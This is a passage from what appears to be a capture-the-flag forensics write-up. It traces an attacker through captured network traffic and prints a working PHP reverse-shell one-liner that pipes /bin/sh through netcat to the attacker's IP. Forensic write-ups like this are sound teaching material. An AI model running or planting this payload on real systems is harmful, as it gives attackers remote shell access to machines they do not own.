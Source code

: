 ```bash
vi payload.txt

# Press ":"
# Search and replace new lines with:
# %/s/\n
```

![](../../attachment/88db14847545bb3407c27e7e6ac6e23e.png)

> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

### What password did the attacker use to privesc?

From previous result, we acknowledge the attacker's ip is `192.168.170.145`

This is where attacker visit the reverse shell payload

![](../../attachment/081a407d7b4ed95b81563029ccc907e8.png)

Follow tcp steam on the next TCP connection
